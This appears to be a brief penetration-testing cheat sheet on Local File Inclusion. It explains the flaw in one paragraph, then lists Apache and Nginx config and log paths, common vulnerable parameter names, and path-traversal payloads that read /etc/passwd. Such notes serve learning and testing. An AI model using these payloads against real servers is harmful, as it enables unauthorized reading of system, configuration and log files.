 


## Local File Inclusion (LFI)

Many modern back-end languages, such as PHP, Javascript, or Java, use HTTP parameters to specify what is shown on the web page, which allows for building dynamic web pages, reduces the script's overall size, and simplifies the code. In such cases, parameters are used to specify which resource is shown on the page. If such functionalities are not securely coded, an attacker may manipulate these parameters to display the content of any local file on the hosting server, leading to a Local File Inclusion (LFI) vulnerability.


Default Conf Files (Apache & Nginx)
````
/etc/nginx/nginx.conf
/etc/apache2/apache2.conf
/etc/nginx/conf.d/default.conf
/etc/apache2/httpd.conf
/var/log/apache2/access.log
/var/log/apache2/error.log
/var/log/nginx.access_log
/var/log/nginx.error_log
````

Examples of Parameters
````
?file=
?f=
/file/someFile

?location=
?l=
/location/someLocation

search=
s=
/search/someSearch

?data=
?d=
/data/someData

?download=
?d=
/download/someFileData
````

Examples of Payloads
````
../../../../etc/passwd
/etc/passwd
/../../../etc/passwd
````
